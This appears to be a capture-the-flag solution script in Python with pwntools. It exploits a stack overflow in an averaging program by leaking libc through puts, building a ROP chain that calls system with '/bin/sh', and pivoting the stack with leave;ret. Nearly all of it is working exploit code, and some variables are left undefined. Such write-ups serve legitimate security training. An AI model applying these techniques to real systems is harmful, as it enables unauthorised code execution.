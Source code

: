 ```python
ret = 0x40101a
leave_ret = 0x40133e

""" stack 0xa0
A: 0x80
n: 0x8
sum: 0x8
average: 0x8
i: 0x8
"""

r.sendlineafter('n: ', str(16 + 3))
for _ in range(16):
    r.sendlineafter(':', '1')

r.sendlineafter(':', '44') # n
r.sendlineafter(':', '0') # sum
r.sendlineafter(':', '0') # average
r.sendlineafter(':', '19') # i
r.sendlineafter(':', str(new_stack)) # rbp

# leak libc
r.sendlineafter(':', str(pop_rdi_ret))
r.sendlineafter(':', str(puts_got))
r.sendlineafter(':', str(puts_plt))

# alignment
r.sendlineafter(':', str(ret))
# overwrite exit_got to ret
overwrite_queue = []
def overwrite(addr, value):
    r.sendlineafter(':', str(pop_rdi_ret))
    r.sendlineafter(':', str(lld))
    r.sendlineafter(':', str(pop_rsi_r15_ret))
    r.sendlineafter(':', str(addr))
    r.sendlineafter(':', '0')
    r.sendlineafter(':', str(scanf_plt))
    overwrite_queue.append(value)

if len(sys.argv) > 1:
    _system = 0x503c0
    libc_pop_rdi_ret = 0x2858f
    sh = 0x1ae41f
else:
    _system = 0x55410
    libc_pop_rdi_ret = 0x26b72
    sh = 0x1b75aa

# rop chain
overwrite(new_stack + 0x8, libc_pop_rdi_ret)
overwrite(new_stack + 0x10, sh)
overwrite(new_stack + 0x18, _system)

# stack pivoting
r.sendlineafter(':', str(leave_ret))

r.recvuntil('Average =')
r.recvline()
libc = u64(r.recv(6).ljust(8, b'\x00'))
if len(sys.argv) > 1:
    libc -= 0x80d90
else:
    libc -= 0x875a0
```